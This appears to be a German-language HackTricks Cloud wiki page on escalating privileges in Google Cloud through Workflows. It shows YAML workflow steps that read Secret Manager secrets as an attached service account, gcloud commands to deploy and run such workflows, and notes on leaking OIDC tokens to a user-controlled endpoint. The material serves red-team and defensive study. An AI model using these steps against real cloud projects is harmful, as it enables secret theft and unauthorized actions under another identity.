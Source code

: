 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Grundinformationen:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Soweit ich weiß, ist es nicht möglich, eine Shell mit Zugriff auf den Metadaten-Endpunkt zu erhalten, der die SA-Anmeldeinformationen des SA enthält, der an einen Workflow angehängt ist. Es ist jedoch möglich, die Berechtigungen des SA zu missbrauchen, indem man die Aktionen hinzufügt, die innerhalb des Workflows ausgeführt werden sollen.

Es ist möglich, die Dokumentation der Connectoren zu finden. Zum Beispiel ist dies die [**Seite des Secretmanager-Connectors**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** In der Seitenleiste sind mehrere andere Connectoren zu finden.

Und hier finden Sie ein Beispiel für einen Connector, der ein Geheimnis ausgibt:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Aktualisierung über die CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Wenn Sie einen Fehler wie `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist` erhalten, **warten Sie einfach eine Minute und versuchen Sie es erneut**.

Wenn Sie keinen Webzugang haben, ist es möglich, die Ausführung eines Workflows auszulösen und zu sehen mit:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Sie können auch die Ausgabe vorheriger Ausführungen überprüfen, um nach sensiblen Informationen zu suchen.
{% endhint %}

Beachten Sie, dass selbst wenn Sie einen Fehler wie `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` erhalten, weil Sie diese Berechtigung nicht haben, der Workflow generiert wurde.

### Leak OIDC-Token (und OAuth?)

Laut [**den Dokumenten**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) ist es möglich, Workflow-Schritte zu verwenden, die eine HTTP-Anfrage mit dem OAuth- oder OIDC-Token senden. Allerdings muss die HTTP-Anfrage mit dem Oauth-Token, wie im Fall von [Cloud Scheduler](gcp-cloudscheduler-privesc.md), an den Host `.googleapis.com` gerichtet sein.

{% hint style="danger" %}
Daher ist es **möglich, das OIDC-Token zu leaken, indem man einen von Benutzern kontrollierten HTTP-Endpunkt angibt**, aber um das **OAuth**-Token zu leaken, benötigen Sie **einen Bypass** für diesen Schutz. Sie können jedoch weiterhin **jede GCP-API kontaktieren, um im Namen des SA Aktionen durchzuführen**, entweder über Connectoren oder HTTP-Anfragen mit dem OAuth-Token.
{% endhint %}

#### OAuth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Mit dieser Berechtigung anstelle von `workflows.workflows.create` ist es möglich, einen bereits bestehenden Workflow zu aktualisieren und die gleichen Angriffe durchzuführen.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
